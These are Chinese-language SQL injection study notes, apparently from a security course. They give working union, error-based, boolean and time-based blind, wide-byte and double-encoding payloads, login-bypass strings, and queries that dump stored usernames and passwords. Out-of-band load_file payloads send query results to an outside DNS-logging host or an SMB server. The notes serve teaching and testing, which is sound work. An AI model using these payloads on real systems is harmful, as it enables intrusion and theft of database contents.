









## 第一天

### 1. SQL注入

#### (1)简单介绍

##### a. 什么是sql注入

* 攻击者将**精心构造的payload**，传递给数据库，数据库**没有严格过滤**直接执行，导致数据库信息被泄露、篡改或破坏
* **服务器端未严格校验客户端**发送的数据，而导致**服务端SQL语句被恶意修改并成功执行**的行为称为SQL注入

##### b.危害

* 获取数据库存储的**数据**
* 获取网站的**控制权限**
* 获取服务器的控制权限
* 网站挂马

##### c. 产生原因

* 不当的**类型处理**
* 不安全的**数据库配置**
* 不合理的**查询集处理**
* 不当的错误处理
* 转义字符处理不合适
* 多个提交处理不当

##### d.2个关键条件

* 用户能**控制输入**的内容
* Web应用把用户输入的内容，在**没经过过滤或严格过滤**的情况下代入到数据库执行

##### e. 分类

###### ①请求方式

1. GET方式请求注入

   * 通常显示在url中，注入点通常出现在URL的查询字符串部分

     ```
     http://example.com/page?id=1' OR '1'='1
     ```

2. POST方式请求注入

   * 通过HTTP请求的**主体传递**，注入点通常在请求体中，不会在URL中显示。

     ```
     POST /login HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     
     username=admin'--&password=anything
     ```

###### ②注入点参数

1. 整数型注入

   ```
   select name,password,uid from users where uid = $id
   ```

2. 字符型注入

   ```
   select name,password,uid from users where uid = "$id"
   ```

3. 搜索型注入

   ```
   select name,password,uid from users where name like "%$uname%";
   ```

###### ③注入点反馈类型

1. 联合查询 -> union类型
2. 报错注入 -> 基于错误显示
3. 布尔盲注 -> 布尔类型
4. 时间盲注 -> 基于时间
5. 其他注入 -> 宽字节注入、header注入、base64、url注入、二次注入、堆叠注入等

###### ④数据库类型分类

1. MySQL
2. SQLServer
3. Oracle
4. Access
5. Mongodb

##### f. 万能密码

###### ①原理

* 使用**构造方式绕过**参数的验证

###### ②危害

* 可以在不知道用户密码的情况下，登录到**任意账户**，包括**管理员账户**

#### (2). 手工注入

##### a. 为什么使用

* 在**自动化工具无法起作用**或**情况复杂**时

##### b. 流程

###### ①判断漏洞

* 判断是否有注入漏洞

  ```
  通过注释[" -- "、" # "]、闭合[']方式
  通过在参数之间使用and、or来对输入进行判断，是否有语句执行
      '1 and 1=1 -- qwe		//正常显示
      '1 and 1=2 -- qwe		//错误显示
  说明存在注入漏洞
  ```

* 识别注入点类型

###### ②获取数据

* **获取数据库基本信息(数据库版本[ version() ]、数据库类型、回显数据列数等)**

  ```
  ?id=-1' order by 10 -- qwe	//使用order by [字段数] 查询出字段数
  
  ?id=-1' union select 1,2,3 -- qwe 	//使用union联合查询，找出字段对应输出位置
  
  可以使用内置函数user()、version()等在占位符获取数据库信息
  ```

* **获取数据库名**

* **获取表名**

* **获取列名**

* **获取用户数据**

###### ③破解加密数据

###### ④提升权限

###### ⑤内网渗透

#### (3). 内置函数

| 内置函数                                       | 作用                               |
| ---------------------------------------------- | ---------------------------------- |
| **database() / current_database() / schema()** | **获取当前数据库名**               |
| **version()**                                  | **获取当前数据库版本**             |
| **user() / current_user()**                    | **获取当前数据库用户**             |
| @@hostname                                     | 获取数据库服务器的主机名           |
| **@@datadir**                                  | **获取数据库的数据存储路径**       |
| **@@basedir**                                  | **获取数据库的安装路径**           |
| @@innodb_version                               | 获取InnoDB存储引擎的版本信息       |
| @@sql_mode                                     | 获取当前数据库的SQL模式            |
| @@version_compile_os                           | 获取数据库服务器的操作系统版本     |
| **@@secure_file_priv**                         | **获取数据库上传文件的全局变量值** |
| @@global.read_only                             | 检查数据库是否处于只读模式         |

#### (4). 联合查询

##### a. 定义

* 使用**拼接联合方式**将2组或多组关键值**拼凑起来**进行查询

  ```
  查询语句1
  union
  查询语句2
  union
  查询语句3
  ```

##### b. 使用

* 多条查询语句的**查询列数和数据类型必须一致**
* 字段数不够时，可以使用null或1,2,3来占位
* union关键字**默认去重**，如果使用**union all**可以包含重复项
* 前提：页面必须要**有显示位**

##### c. 流程

###### ①判断注入点和闭合方式

```
1. 先判断注入点类型
    1 and 1=1 -- 123	
    1 and 1=2 -- 123	=> 发生错误，则为整型，否则考虑为字符型
2. 判断闭合方式
    1' and 1=2 --+
    1" and 1=2 --+
    1) and 1=2 --+
    1') and 1=2 --+
    1") and 1=2 --+
    1")) and 1=2 --+
    1')) and 1=2 --+
    1")) and 1=2 --+
    1))) and 1=2 --+
    ...
```

###### ②判断列数

* 使用order by 判断字段数(可结合二分法)

```
1' order by 1 -- 123
1' order by n -- 123
1' or 1=1 order by n -- 123
```

* 将多条查询语句的结果合并成一个结果集

```
查询语句1
union
查询语句2
union
查询语句3
```

###### ③判断显示位

```
1' union select 1,2 -- 123
-1' union select 1,2 -- 123		//使用-1来使union前半语句无查询返回值
```

###### ④查看数据库信息

```
user()	//返回当前使用数据库的用户
version()	//返回当前数据库版本
database()	//返回当前使用的数据库名
```

###### ⑤查看表及列名

* 系统内置**数据库information_schema**，存储其他所有数据库信息

* ```
  schema表: 存放所有数据库，类似于show databases;
  tables表: 存储数据库中的表信息
  columns表: 存储表中的列信息，包括表有多少列
  ```

* ```
  //显示所有数据库的信息并显示数据库名
  -1' union select schema_name,2 from information_schema.schemata -- qwe
  
  -1' union select database(),2#
  
  //获取数据库为liuyanban的所有表信息并显示表名
  -1' union select table_name,2 from information_schema.tables where table_schema = 'liuyanban'  -- qwe
  
  //选取数据库为liuyanban，表为liuyan的所有字段并显示表名和字段名
  -1' union select table_name,column_name from information_schema.columns where table_schema='liuyanban' and table_name='liuyan' -- qwe
  
  -1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe
  ```

###### ⑥字符串拼接

###### ⑦常用函数

1. concat()

   * 将多个字符串链接成为一个字符串

   ```
   -1' union select 1,concat(id,email_id),3 from emails --+
   ```

   

2. concat_ws()

   * 将多个字符串连接成为一个字符串，可以指定分隔符

   ```
   -1' union select 1,concat_ws('__',id,email_id),3 from emails --+
   ```
   
   
   
3. group_concat()

   * 将多行结果连接成一组,可以指定分隔符

   ```
   -1' union select 1,group_concat(email_id),3 from emails --+
   -1' union select 1,group_concat(email_id separator '~'),3 from emails --+
   ```
   
   

###### ⑧获取详细信息

* 查看具体的信息，例如登录账号、密码

```
1' union select 1,concat(user,password) from users --
1' union select 1,concat_ws("_",user,password) from users --

// 1.获取数据库列表
-1' union select schema_name,2 from information_schema.schemata -- qwe
//获取指定表(可以省略)
-1' union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' -- qwe

//2.获取表的字段信息
-1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe

//3.获取字段内容
-1' union select 1,concat_ws("_",username,password) from admim -- qwe
```

###### ⑨破解加密

* 将加密后的数据根据加密规则进行解密

## 第二天

### 1. 报错注入

#### (1). 概念

* 利用数据库的**某些机制**，**人为的**制造出错误条件，使得查询结果能够出现在**报错信息中**
* 想办法**构造语句**，**让错误信息中可以显示数据库的内容**

#### (2). 基本手法

##### a. XPATH

###### ①extractvalue

extractvalue(arg1,arg2)

* arg1：**XML文档**，arg2：**XPATH语句**，至少接收2个参数

* mysql5.1及以上

* 标准payload

  ```
  1' and extractvalue(1,concat(0x7e,user(),0x7e)) --+
  
  //在报错信息中查询出
  1' and extractvalue(1,arg2) --+
  arg2= concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```



###### ②updatexml

updatexml(arg1,arg2,arg3)

* arg1为**xml文档**，arg2为**指定位置xpath的字符串**，arg3为String格式的**新值**

* mysql5.1.5及以上版本

* 标准payload

  ```
  1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+	//使用0x7e是为了避免查找出的数据被替换掉
  
  1' and updatexml(1,arg2,1) --+
  arg2 = concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```
  
  

##### b. 主键冲突

* mysql版本属于[5.15，~]

###### ①floor

* 返回**向下取整的整数**，**只返回**arg1的**整数部分**

* mysql5.0及以上版本，<8.0

  [【web安全】——floor报错注入-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/128569910)

* 标准payload

  ```
  1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) -- qwe
  
  1' and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) -- qwe
  
  ```
  
  
  
  * floor()报错准确来说是floor、count、group by冲突报错，**count(*)、rand()、group by**三者缺一不可
  
  * 经典公式
  
    ```
    1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
    ```
  
    * floor()：向下取整
    * rand()：在0和1之间产生一个随机数
    * floor(rand()*2)：对生成的0-2之间的随机数进行向下取整，**2条记录可能报错**
    * floor(rand(0)*2)：记录需为3条以上，且**3条以上必报错**
    * count(*)：统计记录条数，包括NULL值
    * group by：对数据进行分组，存在则count(*)+1，**不存在则在虚拟表插入一条数据**

##### c. 其他报错注入

###### ①列名重复

* **name_const**

* mysql版本属于 [5.0,5.1)

* **name_const(name,value)**,当用来产生一个**结果集合**时，name_const()促使该列**使用给定名称**

* 标准payload

  ```
  1' and (select * from (select name_const(version(),1),name_const(version(),1))a) -- qwe
  
  //5.7.6只支持使用version()查看版本，其他内置函数均不支持
  ```

  

###### ②整形溢出

* **exp**
* mysql低于5.5.5，5.7.9成功，8.0失败
* exp是以e为底的指数函数，由于数字太大会溢出，该函数会在参数大于709时溢出，产生报错
* 标准payload

```
1' and exp (~(select * from(select version())a)) --+		//只有mysql5.5.29才能正常显示
```


###### ③几何函数

* mysql版本属于[5.5.49,~]

* 高版本mysql无法得到数据，目前只有**mysql5.5.29、5.1.60**能得到**正确输出**

* geometrycollection()、**multipoint()**、polygon()、multipolygon()、linestring()、multilinestring()

* 标准payload

  ```
  1' and 
      (select multipoint(
          (select * from 
              (select * from 
                  (select * from
                      (select version())a
                  )b
               )c
      	)
      )
  ) -- qwe		
  ```



##### d. json报错

* 版本属于[5.7.8,~]

###### ①json_type

* 获取json值的类型，当我们**传入的值不属于json格式**则报错

* json_type(version())

* 标准payload

  ```
  1' and json_type(version())%23 --+
  ```


###### ②json_extract

* json_extract(json_doc,path[,path])

* 从json_doc中读取数据，和path的参数匹配，第一个或第二个参数不是json格式就报错

  ```
  1' and json_extract(user(),'$.a') -- qwe
  1' and json_extract(user(),'$.a') # 
  
  1' and json_extract('[1,2,3]',user()) -- qwe
  
  ```

###### ③json_array_append

* json_array_append(json_doc,path,val[,path,val]...)，

* 将值**附加**到json文档中**指定数组的末尾**并**返回结果，**

* 报错输出原理和json_extract函数相同

  ```
  1' and json_array_append('[1,2,3]',user(),1) # 
  1' and json_array_append('[1,2,3]',user(),1) -- qwe
  ```

#### (3). 基本步骤

##### a.查看数据库版本

```
1' and extractvalue(1,concat(0x7e,(select version()),0x7e)) --+
```


##### b.查看数据库名字

```
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```


##### c.查看数据库的表

```
1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```


##### d.查看有哪些表

```
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```


##### e.查看表中字段名

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
```


##### f.查看表里数据

```
1' and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('___',id,email_id)) from information_schema.columns where table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### 2. SQL盲注

#### (1). 概述

* 服务器不会直接返回具体的数据库，只会返回程序开发所**设定的特定信息**
* 页面**不会直接显示**sql执行的结果

#### (2). 布尔盲注

* 在进行SQL注入时，**WEB页面只返回True和False**
* 对返回True或False的情况对数据库的信息**进行猜解**

##### a. 相关函数

###### ①长度截取

* 用于截取**某一列字段中的一部分**，在各个数据库中名称不一样

* substr(arg1,int1,int2)，**int1为截取开始位置(从1开始计算)**，**int2为截取长度**，其余用法完全一样
  1. substr()
  2. substring()
  3. mid()
  4. left()
  5. right()
  
  ```
  select substr(database(),1,3)
  ```

###### ②length()

* 获取数据库长度

* 使用方法：length(arg1)，arg1代表字符串(数据库名)

  ```
  select length(database())
  ```

###### ③ascii()

* 将单一字符，转化为ascii码值

* 使用方法：ascii(str)，str代表字符

  ```
  select ascii('a')
  ```

###### ④if()

* 条件判断

* 使用方式：if(exp1,true,false)

  ```
  select if(length(database())>0,1,0)
  ```

###### ⑤count()

* 判断记录数

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and (length(database()))=n --+		//n为数据库名长度
```

###### ②获取数据库名称

```
1' and (ascii(substr(database(),n,1))=m) --+		//n为第几个位置，m为ascii码[65,122]
```

###### ③获取表名长度

```
1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m) --+
  //m为表名长度
//获取表的个数
1' and (select count(*) from information_schema.tables where table_schema=database())=m -- qwe	//m为表的个数
```

###### ④获取表名

```
1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and (length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m) --+		//m为字段名长度 

//获取字段个数
1' and ((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and (ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据

```
select 字段 from 表
```

#### (3). 时间盲注

##### a. 相关函数

###### ①sleep()

* 用法：sleep(arg1)，arg1是休眠秒数

  ```
  select if(1=1,sleep(10),0)
  ```

###### ②benchmark()

* 用法：benchmark(arg1,arg2)，arg1是执行次数，arg2是执行的表达式

* 延迟时间**只和机器性能有关**

  ```
  select if(1=1,benchmark(5000000,md5('abc')),0)
  ```

##### b. 使用步骤

###### ①获取数据库名长度

```
1' and if((length(database()))>5,sleep(10),0) --+
```

###### ②获取数据库名称

```
1' and if(ascii(substr(database(),m,1))=m,sleep(10),0) --+		//65<=m<=122
```

###### ③获取表名长度

```
1' and if(exp1,sleep(10),0) --+
exp1= length((select count(table_name)from information_schema.tables where table_schema=database() limit 0,1))
综上：
1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=m,sleep(10),0) --+		//m为表名长度
```

```
//获取表的个数
1' and if(exp1,sleep(10),0) --+
exp1= select count(*) from information_schema.tables where table_schema=database())=m
综上:
1' and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(10),0) --+	//m为表的个数
```

###### ④获取表名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m,sleep(10),0) --+			//n为表名的第几个位置，m为ascii范围[65,122]
```

###### ⑤获取字段长度

```
1' and if(length(),sleep(10),0) --+
exp1= length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=m
综上：
1' and if(length((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1))=2,sleep(10),0) --+		//m为字段名长度 

//获取字段个数
1' and if((select count(*) from information_schema.columns where table_schema=database() and table_name='表名')=m,sleep(10),0) --+	//m为表的个数
```

###### ⑥获取字段名

```
1' and if(exp1,sleep(10),0) --+
exp1= ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m
综上：
1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='表名' limit 0,1),n,1))=m,sleep(10),0) --+		//n为字段名的位置，m为ascii范围[65,122]
```

###### ⑦获取数据

## 第四天

### 1. 数据外带

#### (1). 介绍

##### a.概念

* 如果SQL注入仅能使用**时间盲注**，可以使用**OOB(out of band)**,将sql语句执行的结果以数据的形式外带出来

##### b.条件

* **Windows操作系统**、mysql的全局变量**secure_file_priv不为null**

##### c.DNSLOG 平台

| 网址                       | 介绍                          |
| -------------------------- | ----------------------------- |
| http://dnslog.cn/          | 仅支持DNS数据外带             |
| http://eyes.sh/            | 支持DNS和HTTP两种数据外带方式 |
| http://ceye.io/            | 支持DNS和HTTP两种数据外带方式 |
| Burpsuite Collaborator模块 | 支持DNS和HTTP两种数据外带方式 |

##### d.应用场景

| 方式                                  | 简介                  |
| ------------------------------------- | --------------------- |
| secure_file_priv                      | 拥有读写权限          |
| secure_file_priv=""                   | 可以读取任何目录      |
| secure_file_priv='/var/www/html'      | 可以读取指定文件      |
| secure_file_priv=null                 | 不能加载文件          |
| show global variables like '%secure%' | 查看mysql是否有写限制 |

* 有写限制，则打开mysql的**配置文件my.ini**，在**mysqld一栏**添加**`secure_file_priv=""`**

#### (2). 方式

##### a.DNS数据外带

* 在极限条件(**内网机器不出网，支持dns出网，隐匿性高，不容易被拦截**)，**61长度限制，不支持敏感符号(@#$%)**，外带数据需要转码，规避流量监测设备

##### b.SMB数据外带

* **默认支持TCP/UDP出网方式时可用**，**无长度限制和符号限制**，规避流量监测设备

* Centos7上安装SMB服务

  ```
  1. 安装smb服务
  	yum install samba -y
  2. 修改配置文件
  	vim /etc/samba/smb.conf
  3. 修改samba日志路径
  	vim /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  	tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

* payload

  ```
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  1' and load_file(concat('\\\\192.168.172.130\\',(select group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```


##### c.HTTP数据外带

#### (3). 使用

* 以DNS数据外带为例

* ```
  load_file(concat('\\\\',查询内容,'.网址\\abc')
  or
  load_file(concat('//',查询内容,'.网址/abc')	# /abc指定外部路径
  ```

* 实例

```
1.获取数据库名
select * from users where id=1 and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh/abc'));

2.获取表名
select * from users where id=1 and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh/abc'));

3.获取字段名
select * from users where id=1 and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));

4.获取字段数据
select * from users where id>0 and load_file(concat('//',(select group_concat(concat_ws('_',id,username,password) separator '__') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc'));
```

#### (4). 基本步骤

##### a.获取数据库名

```
1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### b.获取表名

```
1' and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
```

##### c.获取字段名

```
1' and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc')) --+
```

##### d.获取字段数据

* DNS数据外带有字符大小限制

```
//获取id
1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM users),'.Laffrex.eyes.sh/abc')) --+
//获取username
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 1, 60) FROM 
users),'.Laffrex.eyes.sh/abc1')) --+		//本次字符最大长度为63
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+		

1' AND load_file(CONCAT('\\\\',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45) FROM users),'.Laffrex.eyes.sh/abc')) --+	//本次字符最大长度45
```

## 第五天

### 1. 宽字节注入

#### (1). 概述

##### a.定义

* 宽字节是指**≥2个字节宽度**的编码技术

##### b.原因

* set **character_set_client**="gbk"，通常导致**编码转换的注入问题**

* mysql在使用**GBK编码**时，**符合条件**会认为**2个字符是1个汉字**

* 第一个字节**129-254**，第二个字节为**64-254**


##### c.原理

* ①程序员会对**特殊字符**(例如单引号)进行**正则匹配通过反斜杠\使其失效**，这时无法使用普通注入；②在为gbk编码时，攻击者可以使用ascii＞128的字符与**反斜杠\组合成新的字符**，从而**绕过**反斜杠的**转义**

#### (2).方法

##### a.黑盒

* 在注入点后键入%df，再开始正常注入

* **键入字符的ASCII要大于128**，才能和反斜杠 **“\”** 组合成一个汉字

  ```
  1%df%' order by 3 -- qwe
  ```

##### b.白盒

###### ①方法

* 查看Mysql编码是否为**GBK**
* 是否使用了**preg_replace()**进行正则替换
* 是否使用了**addslashes()**进行转义
* 是否使用了**mysql_real_escape_string()**进行转义

###### ②函数

1. preg_replace()
   * 进行正则替换
2. addslashes()
   * 仅在**特殊字符前添加反斜杠\ **来进行转义
3. real_escape_string()
   * 新版本**mysqli函数**，字符替换精确，安全性更强
4. mysql_real_escape_string()
   * 老版本**mysql_函数**，字符替换不精确，安全性弱
5. mysql_query()
   * 执行数据库语句，**临时**设置字符集编码
6. mysql_set_charset()
   * **直接**设置字符集编码

##### c. 宽字节注入修复

###### ①设置编码

```
Mysql_query("SET character_set_connection=gbk,character_set_result=gbk,character_set_client=binary",$conn);
```

###### ②过滤函数

```
mysql_real_escape_string()/addslashes()
```

### 2. HTTP头注入

#### (1).常见污染参数



#### (2). 概述

##### a. 概念

* 用户提交的**HTTP请求包的头信息未做过滤**，直接带入到数据库执行

##### b. 检测方式

* 通过**修改http请求包的参数**来判断是否存在漏洞

##### c. 原因

1. 在网页代码中的**ip字段**与**数据库**有交互
2. 代码中使用了**超全局变量$_SERVER[]**

##### d. 修复

1. 过滤回车换行字符(%0d%0a、%0D%0A)
2. 不采用有漏洞版本的apache服务器
3. 对参数做**合法性校验**以及**长度限制**，**谨慎地**根据用户传入的参数设置**http返回包的header设置**

#### (3). $_SERVER

* 是一个包含了诸多HTTP信息的数组

  | 参数                 | 含义                     |
  | -------------------- | ------------------------ |
  | HTTP_HOST            | 获取当前域名             |
  | HTTP_USER_AGENT      | 获取用户相关信息         |
  | HTTP_ACCEPT          | 当前请求的ACCEPT头部信息 |
  | HTTP_COOKIE          | 浏览器的cookie信息       |
  | SERVER_ADDR          | 服务器的ip地址           |
  | REMOTE_ADDR          | 浏览网页的用户ip         |
  | HTTP-X-FORWARDED-FOR | 浏览网页的用户ip         |
  | HTTP-CLIENT-IP       | 浏览网页的用户ip         |
  | SCRIPT_FILENAME      | 当前执行脚本的绝对路径   |

### 3. 二次编码注入

* **指URL本身解码一次，代码中又使用函数解码一次**

#### (1). 概述

##### a. URL

* **URL采用16进制编码**(又被称为**百分号编码**，**使用%接2个16进制字符代表一个字节**)，其他非ASCII字符均需要编码显示
* URL可**允许**打印字符



```
-1%2527 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),database() -- qwe

-1%2527
```

##### b. 常见编码

| 符号    | 对应url编码 |
| ------- | ----------- |
| 空格    | %20或%2B(+) |
| 双引号" | %22         |
| 井号#   | %23         |
| 百分号% | %25         |
| 和&     | %26         |
| 单引号' | %27         |
| 左括号( | %28         |
| 右括号) | %29         |
| 星号*   | %2A         |
| 加号+   | %2B         |
| 逗号，  | %2C         |
| 减号-   | %2D         |
| 斜杠/   | %2F         |
| 反斜杠\ | %5C         |

#### (2).原理

##### a. 相关函数

```
urldecode()
rawurldecode()
```

##### b. 原理

